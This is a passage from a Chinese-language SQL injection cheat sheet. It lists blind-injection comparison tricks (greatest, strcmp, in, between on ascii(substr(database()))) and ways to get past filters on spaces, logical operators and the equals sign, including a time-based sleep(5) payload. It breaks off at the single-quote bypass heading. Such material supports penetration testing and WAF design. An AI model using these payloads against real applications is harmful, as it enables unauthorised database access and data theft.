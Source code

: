 在sql盲注中，一般使用大小于号来判断ascii码值的大小来达到爆破的效果。
greatest(n1, n2, n3…):返回n中的最大值 或least(n1,n2,n3…):返回n中的最小值

```
select * from cms_users where userid=1 and greatest(ascii(substr(database(),1,1)),1)=99;
```
strcmp(str1,str2):

若所有的字符串均相同，则返回STRCMP()，若根据当前分类次序，第一个参数小于第二个，则返回 -1，其它情况返回 1
```
select * from cms_users where userid=1 and strcmp(ascii(substr(database(),0,1)),99);
```
in关键字
```
select * from cms_users where userid=1 and substr(database(),1,1) in ('c');
```
between a and b:范围在a-b之间（不包含b）
```
select * from cms_users where userid=1 and substr(database(),1,1) between 'a' and 'd';
```
##  7.空格绕过

一般绕过空格过滤的方法有以下几种方法来取代空格
```
//
()
回车(url编码中的%0a)
`(tap键上面的按钮)
tap
两个空格
```
##  8.对or and xor not 绕过
```
or = ||
and = &&
xor = | 或者 ^ # 异或,例如Select * from cms_users where userid=1^sleep(5);
not = !
```
##  9.对等号=绕过

不加通配符的like执行的效果和 = 一致，所以可以用来绕过。

正常加上通配符的like：
```
Select * from cms_users where username like "ad%";
```
不加上通配符的like可以用来取代=：
```
Select * from cms_users where username like "admin";
```
regexp:MySQL中使用 REGEXP 操作符来进行正则表达式匹配
```
Select * from cms_users where username REGEXP "admin";
```
使用大小于号来绕过
```
Select * from cms_users where userid>0 and userid<2;
```
<> 等价于 != ,所以在前面再加一个 ! 结果就是等号了
```
Select * from cms_users where !(username <> "admin");
```
##  10.对单引号的绕过
